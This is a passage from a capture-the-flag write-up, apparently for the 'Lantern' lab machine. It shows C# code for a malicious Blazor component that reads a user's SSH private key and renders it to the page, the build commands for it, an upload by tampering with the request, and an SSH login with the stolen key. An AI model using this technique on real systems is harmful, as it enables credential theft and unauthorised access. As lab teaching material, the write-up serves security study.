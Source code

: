 ```bash

namespace takethree
{
	public class Component : ComponentBase
	{
		protected override void BuildRenderTree(RenderTreeBuilder builder)
		{
			base.BuildRenderTree(builder);
			string file = File.ReadAllText("/home/tomas/.ssh/id_rsa");
			builder.AddContent(0, file);
		}
	}

}
```

To compile this I needed to install dotnet-sdk and create a new classlib, then change the csproj file to specify `<TargetFramework>net6.0</TargetFramework>`, and I then add the required packages specifying the 6.0.0 version as well. 

```bash
sudo snap install dotnet-sdk --classic
sudo ln -s /snap/dotnet-sdk/current/dotnet /usr/local/bin/dotnet
dotnet --version
8.0.400
dotnet new classlib -n takethree
cd takethree
cp ../takethree.cs Class1.cs 
nano takethree.csproj
dotnet add package Microsoft.AspNetCore.Components --version 6.0.0
dotnet add package Microsoft.AspNetCore.Components.Web --version 6.0.0
dotnet build -c Release
```

Then upload by intercepting the request and changing the name. And after a successful upload run the module.

![lfi id_rsa]({{ page.img }}_3000_id_rsa_takethree.png)

```bash
ssh tomas@lantern.htb -i lantern_rsa

tomas@lantern:~$ id
uid=1000(tomas) gid=1000(tomas) groups=1000(tomas)
tomas@lantern:~$ ls
LanternAdmin  user.txt
tomas@lantern:~$ cat user.txt 
c9b04b4a32bd--------------------
```

# Root

